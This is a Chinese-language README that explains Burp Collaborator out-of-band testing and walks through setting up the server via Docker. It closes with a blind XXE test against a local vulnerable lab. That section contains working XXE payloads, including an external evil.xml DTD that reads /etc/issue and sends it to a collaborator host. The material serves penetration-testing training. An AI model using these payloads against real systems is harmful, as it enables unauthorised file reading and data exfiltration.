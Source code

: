 # 0x1 Burp Collaborator的介绍
Burp suite Pro 自从v1.6.15版本开始引入了一种名为Burp Collaborator的模块，该模块的作用简单的说就是集合了DNS log, http_https log和smtp_smtps log的记录器，有点类似国内的Ceye平台。

为了解释这个模块，burp引入了In-band attack与 out-band attack（带内与带外攻击）两个概念，两者最主要的区别在于数据的流动方向和参与者的数量。

带内攻击(In-band attack)是平时最常见的渗透测试模型:

![](README/C7FA7BD0-9AF7-4139-9001-9E7CD5CFDB60%203.png)

通常在渗透测试过程中，无论是手工还是利用工具都是由攻击端发送含有payload的数据给被攻击端，然后校验被攻击端返回的数据。在这个模型中角色只有两个，流量只有两个信道。

带外攻击(out-band attack)则是Burp Collaborator的攻击模型

![](README/3FCA238E-6FB0-4C6F-8209-E933EDABE9EF%203.png)

在带外攻击中由攻击者发送有害流量到被攻击者，但是数据不会直接返回而是转向了第三方服务器，最后返回被攻击者。在带外攻击中，数据走三个信道，有三个角色。当然有时候第三方服务器和攻击者可以在同一个终端上

Burp Collaborator是一个c/s结构的服务器。在Project options->Misc->Burp Collaborator Server是配置、校验Burp Collaborator服务器的地方

而在Burp->Burp Collaborator Client是查看服务器信息的地方

# 0x2 Burp Collaborator Server的搭建
Burp Collaborator 是一个C/S结构的应用程序，C自然是burp的客户端，S则可以根据情况而定

## 0x01 Burp自带的服务器
Burpsuite自带了一个免费的服务器
前往Project options->Misc->Burp Collaborator Server 点击Run Health Check
![](README/381AD5A9-3930-4E9F-9AC9-746ED154537E%203.png)


![](README/F108D99E-8459-4EB8-A8B6-D24C5A7E428D%203.png)

然后前往 Burp->Burp Collaborator Client
![](README/BBB8F93D-3CB0-4E8B-AAE6-BCA4EF014D50%203.png)

![](README/4C15AEBD-2349-42AC-9182-1A2F8EE2864D%203.png)

单击Copy  to clipboard,
![](README/AE96D3AC-192F-4EFC-907F-993C6E17A9DC%203.png)
然后前往界面,可以看到DNSlog和HTTP log
![](README/6CA98CDF-D923-4529-8357-03B41256D773%203.png)


## 0x02 自建服务器
Burp Collaborator 允许自建服务器，而且自建Collaborator 服务器是不需要Pro授权的。自建服务器根据具体的网络分为两种

###  0x001 内网

优点:方便灵活，在无网络的情况下(比如CTF比赛和内网测试)也可以使用
缺点:无DNS  log，https log和 smtps log

搭建内网环境已经封装成了docker，前往Docker_Server_Inner目录下
```shell
docker-compose build
docker-compose up -d
```

![](README/2A980454-8C06-4489-AFB4-EE9F87C6FD01%203.png)

![](README/58710DE1-F9AC-4F34-9860-EC0B67C28B78%203.png)

然后copy
![](README/F3735BC0-1F39-44E9-96BF-F141F9C184B7%203.png)


![](README/42977B01-575A-4B0A-B555-CF2FE1D56C60%203.png)

![](README/B7A5F83E-31F8-42E5-8341-B57B04B03E92%203.png)


### 0x002 外网
与内网搭建相比，外网就比较麻烦了

所需材料:
1. VPS 
2. 域名:(从godaddy买的，然后移交到了cloudflare下进行控制),以my-subdomain-for-burp.luffy.com为例(假域名，需要改成自己的二级域名)
3. LetsEncrypt(免费的ssl加密证书)
4. Burp Suite Pro
5. Docker

#### 0x0001 配置SSL证书

```shell
wget https://raw.githubusercontent.com/certbot/certbot/master/certbot-auto -O /usr/local/bin/certbot-auto
chmod a+x /usr/local/bin/certbot-auto
certbot-auto
certbot-auto certonly -d my-subdomain-for-burp.luffy.com -d *.my-subdomain-for-burp.luffy.com  --server https://acme-v02.api.letsencrypt.org/directory --manual --agree-tos  --email=you-email@qq.com --manual-public-ip-logging-ok --preferred-challenges dns-01
```

![](README/4037451E-9ECA-4D99-BF10-AB8FEC44176B%203.png)

然后前往cloudflare添加两个TXT记录
_acme-challenge.my-subdomain-for-burp.luffy.com -> en9Gf...
_acme-challenge.my-subdomain-for-burp.luffy.com -> Ffzzws...
![](README/168E4A46-EA4E-4384-A3C8-ECB856F77A44%203.png)


最后生成的证书默认是放在_etc_letsencrypt/目录下的

#### 0x0002 Burp Collaborator Server的配置
将Docker_Server_Internet整个目录上传到VPS上，然后编辑docker-compose.yml
![](README/A39F09DA-CC17-4CA7-AA28-90263E2E4F56%202.png)

将域名和IP改成对应的二级域名和VPS公网IP地址

```shell
docker-compose build
docker-compose up -d
```

![](README/25C68495-FF80-4AF9-892E-3FF3DDCF5BC8%203.png)


#### 0x0003 修改A记录和NS记录
1. NS 记录指向 ns1.my-subdomain-for-burp.luffy.com
2. A 记录指向公网IP

![](README/BC3D1EB4-DAFB-4707-9164-CFFB2E3DD720%203.png)


然后测试，前往Project options->Misc->Burp Collaborator Server 点击Run Health Check
![](README/09448415-E6DA-4B94-91D9-904F5E738544%203.png)

利用curl测试一下
![](README/2CF5A69C-6408-4347-B876-B76572C1135A%203.png)

![](README/42178470-41B5-44CF-B002-7A4B65FF63DD%203.png)

测试成功。

但是Burp Collaborator有一个缺点就是数据无法持久化，Burp Suite 不可能保存Collaborator的上下文。关闭client那么所有的数据就丢失了。现在也只能期待以后Burp会添加这方面的功能了。

现在为止有一个很好的折衷的方案就是在自建的服务器上开启DEBUG功能(我在docker中已经启用了)，查看log信息，Burp自带的服务器就不可能实现了

![](README/16898577-11B4-4192-BD95-1D7FDA096EC4%202.png)

我把日志内容导向到了logs目录下的burp.log文件


# 0x3 漏洞测试
## 0x01 XXE
前往Docker_vul_JavaVulnerableLab.这个XXE是回显式的 不过我按照盲注的方式测试


```shell
docker-compose build
docker-compose up -d
```

启用之后访问 http://127.0.0.1:8080/vulnerability/Injection/xxe.jsp

标准的请求
![](README/0D2ADFB3-BF5E-48B9-BD73-57568AA5FD30.png)

回显的payload
![](README/FF208C58-2819-4E8C-B4A7-EDF7083FEEC8.png)

忙注的校验漏洞的PAYLOAD
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE ANY [<!ENTITY hello SYSTEM "http://cfv17n86l6ri6atl5kbebbxaa1gr4g.burpcollaborator.net">]><users><username>Neo&hello;</username><email>neo@matrix</email></users>
```


![](README/BF60D28F-DF32-49A3-9427-A23C8D56127D.png)


实现文件读取



新建一个evil.xml文件，放在web目录下


```xml
<!ENTITY % file SYSTEM "file:///etc/issue">
<!ENTITY % ent "<!ENTITY data SYSTEM 'http://tzwwz7vl66d1gir1nzihuc4hd8jy7n.burpcollaborator.net/%file;'>">
```

然后修改POST包
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxegsd76 SYSTEM "http://172.168.46.145:6080/evil.xml"> %xxegsd76; %ent; ]><users><username>Neo&data;</username><email>neo@matrix</email></users>
```

![](README/5754DB47-E47C-466B-80B2-60375DA3FA19.png)



引用链接

[Introducing Burp Collaborator | Blog](https://portswigger.net/blog/introducing-burp-collaborator)

[Burpsuite之Burp Collaborator模块介绍 - 小小leo - 博客园](https://www.cnblogs.com/xiaoxiaoleo/p/5724947.html?utm_source=itdadao&utm_medium=referral)

[Running Your Instance of Burp Collaborator Server - Fabio Pires](https://blog.fabiopires.pt/running-your-instance-of-burp-collaborator-server/)

[Deploying a private Burp Collaborator server](https://portswigger.net/burp/documentation/collaborator/deploying)

[Burp Collaborator资源整合 - blacksunny - 博客园](https://www.cnblogs.com/blacksunny/p/8023878.html)

[DNSLog在渗透中的使用 | AdminTony's Blog](http://www.admintony.com/DNSLog%E5%9C%A8%E6%B8%97%E9%80%8F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8.html)

[从 blind XXE 到读取根目录文件](https://paper.tuisec.win/detail/77e971804021874)

[XXE總結 - 掃文資訊](https://hk.saowen.com/a/55b8087bf5c735d6aa7bed67999c487dbd604641d93a6c6353af2af34ce94499)

[XXE总结（小部分自己的）](http://blog.leanote.com/post/xuxi/XXE%E6%80%BB%E7%BB%93)

[從 blind XXE 到讀取根目錄文件 - 掃文資訊](https://tw.saowen.com/a/7ef453e1d9c1d13380d9e6b5a45794537ed9e7c248c0a957a16c096634c4f6a6)